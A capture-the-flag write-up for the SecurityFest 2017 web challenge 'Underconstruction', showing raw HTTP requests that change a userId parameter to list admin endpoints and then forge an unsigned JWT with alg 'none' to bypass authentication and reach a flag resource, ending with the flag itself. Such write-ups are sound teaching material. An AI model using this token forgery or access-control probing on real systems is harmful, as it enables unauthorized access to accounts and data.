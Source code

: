 ```yaml
---
layout: post
title: "SecurityFest 2017 - Underconstruction"
date:   2017-06-01 21:05
categories: CTF
tags: [SecurityFest2017]
categories: [web]
author: jbz
---
```


Under Construction! Please protect your head, wear a hardhat.
Service: http://web.ctf.rocks:8080
Author: Kits / weckzen

In the HTML source of the index there is a comment saying that the backend allows you to connect by posting `{"username": "user", "password":"password"}` to `/login`.

```
POST /login HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 43

{"username": "user", "password":"password"}
```

In the response you get an `Athorization Bearer` token and the link `/apis` where you can list your available APIs.

*As Java errors are enabled and displayed you can manage to understand which parameters are missing while invoking APIs.*

We request our APIS:

```
GET /apis?userId=52 HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTExMn0.lRlvydjfWCMlavdcqvb6qth4Mp0zyFo3Zs50ngIZ1Jk
```

And we get:

```
{"urls":["/login","/apis"],"id":52,"user":"user"}
```
Then we request the admin's APIs:

```
GET /apis?userId=0 HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTExMn0.lRlvydjfWCMlavdcqvb6qth4Mp0zyFo3Zs50ngIZ1Jk
```

And we get:

```
{"urls":["/login","/apis","/supersecretflagresource"],"id":0,"user":"admin"}
```

Ok we have the flag endpoint, but if we try to GET it we receive a 403.

```
GET /supersecretflagresource HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTQ0OX0.O1BEqBvnt44Q6CIlWJK2hIzg8Ja9ycyOnIGc1Z-Zxzo
```

By analizing the token, we can see that is a JWT with HS256.

```
{
    "alg": "HS256"
}
{
    "user": "user",
    "exp": 1497099449
}
```

In some `JWT` libraries there is a vulnerability that allows to set `none` as algorithm and bypass the signature verification. This is the case.
You hust need to create a JWT token with `"alg":"none"` and `"user":"admin"` and perform the GET again.

```
GET /supersecretflagresource HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.
``` 
And the result is:

```
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```    
Finally you need to browse to `https://kits.se?kokitotsos` and execute the returned Javascript to get the flag.

**SCTF{lolKOKITOTSOS}**
